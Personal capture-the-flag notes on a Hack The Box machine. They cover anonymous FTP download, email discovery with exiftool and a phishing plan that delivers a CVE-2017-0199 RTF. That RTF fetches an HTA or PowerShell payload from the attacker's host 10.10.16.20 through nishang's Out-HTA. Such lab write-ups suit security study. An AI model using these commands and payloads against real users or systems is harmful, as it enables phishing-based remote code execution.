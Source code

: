 
```
Name: HTB
Domain Sid: S-1-5-21-2648318136-3688571242-2924127574
```

FTP
```
wget -m ftp://anonymous:anonymous@10.10.10.77 #Donwload all
```
![[Pasted image 20240507024218.png]]

readme.txt
```
please email me any rtf format procedures - I'll review and convert.

new format / converted documents will be saved here.
```

AppLocker.docx
```
AppLocker procedure to be documented - hash rules for exe, msi and scripts (ps1,vbs,cmd,bat,js) are in effect.
```

```
LAPTOP12.HTB.LOCAL
```


Just a wild guess as we want Gmail to enter it in the SMTP server and even kerbrute was not working this time.
```
exiftool Windows\ Event\ Forwarding.docx
```

```
nico@megabank.com
```

![[Pasted image 20240507085045.png]]


It is clear that we have to take the mail path to get something out of it. And if we recall there was a note that they are processing some files with .exe , bat so which means we have to draft a Phising mail to send to Nico and assume that our reverse shell get's executed and we get the shell.

But for that i have take some hello from the walkthrough and how to do it.

![[Pasted image 20240509125558.png]]

We can send the mail to nicko using RCPT and we got a OK response.

Will not make a malicious macro word file and wait for it to execute as the user is not using Microsoft word (i.e. using wordpad)

But will learn how to do that for future use.

Will open the insert tab
![[Pasted image 20240509130445.png]]

In that will select Quick Parks -> Field 
![[Pasted image 20240509130524.png]]

Everytime user opens the image the words will try to download that image from the URL that we have given.
![[Pasted image 20240509130708.png]]

Now if we think a little more RTF (i.e. rtf format procedures) was mentioned in the note. So will find if there are any exploits related to that.
![[Pasted image 20240509130929.png]]

Will go with the 1st result aka CVE 2017
https://github.com/bhdresh/CVE-2017-0199.git

![[Pasted image 20240509131155.png]]

Payload
```
python cve-2017-0199_toolkit.py -M gen -w singh.rtf -u http://10.10.16.20 -t RTF -x 0
```
we are using -x 0 cuz we don't want any obfuscation
![[Pasted image 20240509131543.png]]

Now we have to generate a Malicious HTA file cuz that the requirement in order to work.
![[Pasted image 20240509131659.png]]

I have clone nishang
https://github.com/samratashok/nishang

```
find . | grep -i hta
```
![[Pasted image 20240509131932.png]]

```
less ./Client/Out-HTA.ps1
```
![[Pasted image 20240509132014.png]]

```
.EXAMPLE
PS > Out-HTA -PayloadURL http://192.168.254.1/Get-Information.ps1
```

Will load the PowerShell and execute the Command
![[Pasted image 20240509150308.png]]


```

```
![[Pasted image 20240509150921.png]]